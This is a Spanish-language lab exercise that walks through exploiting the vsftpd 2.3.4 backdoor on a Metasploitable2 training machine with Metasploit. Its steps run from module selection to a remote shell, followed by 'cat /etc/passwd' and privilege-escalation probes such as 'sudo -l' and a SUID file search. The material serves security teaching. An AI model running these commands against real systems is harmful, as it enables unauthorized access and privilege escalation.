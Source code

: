 # Práctica 04.- 🛠 Práctica 04: Fase de Explotación con Metasploit
Luis ha identificado una vulnerabilidad en el servidor FTP vsftpd 2.3.4 que se ejecuta en el puerto TCP/21 de la máquina Metasploitable2. Ahora, usaremos Metasploit para explotar esta vulnerabilidad y obtener acceso a la máquina víctima.

## 1️⃣ Información sobre la Vulnerabilidad
El servidor vsftpd 2.3.4 tiene una vulnerabilidad que permite obtener una shell remota en el sistema. Esta vulnerabilidad se encuentra en la versión comprometida de vsftpd y se activa al intentar iniciar sesión con un usuario que contenga :) en el nombre.

Exploit disponible en Metasploit: exploit/unix/ftp/vsftpd_234_backdoor

## 2️⃣ Iniciar Metasploit en Kali Linux
Abrimos una terminal y ejecutamos:

```bash
msfconsole
```
Esperamos a que se cargue Metasploit Framework.

## 3️⃣ Buscar y Seleccionar el Exploit
Buscamos el exploit correspondiente:

```bash
search vsftpd
```
El resultado mostrará algo similar a:

```bash
exploit/unix/ftp/vsftpd_234_backdoor
```
Seleccionamos el exploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```
## 4️⃣ Configurar los Parámetros del Exploit
### 1️⃣ Definir la IP de la máquina víctima (Metasploitable2):

```bash
set RHOSTS 10.0.2.15
```
(Asegúrate de reemplazar 10.0.2.15 con la IP real de la máquina víctima obtenida en la fase de escaneo.)

### 2️⃣ Definir el puerto del servicio FTP (TCP/21):

```bash
set RPORT 21
```
### 5️⃣ Ejecutar el Exploit
Iniciar la explotación con:

```bash
exploit
```
Si todo funciona correctamente, obtendremos una shell remota con acceso al sistema.

### 6️⃣ Validar el Acceso
Si el exploit es exitoso, deberíamos ver algo como:

```nginx
Command shell session opened - 10.0.2.15:21
```
Ahora podemos ejecutar comandos en la máquina víctima, por ejemplo:

```bash
whoami
uname -a
cat /etc/passwd
```
### 7️⃣ Elevar Privilegios (Opcional)
Si queremos obtener acceso root, podemos intentar técnicas de escalada de privilegios, como:

```bash
sudo -l
```
O buscar archivos con permisos mal configurados:

```bash
find / -perm -4000 2>/dev/null
```
### 8️⃣ Cerrar la Sesión
Si queremos salir de la sesión, escribimos:

```bash
exit
```
Y luego cerramos Metasploit con:

```bash
exit
```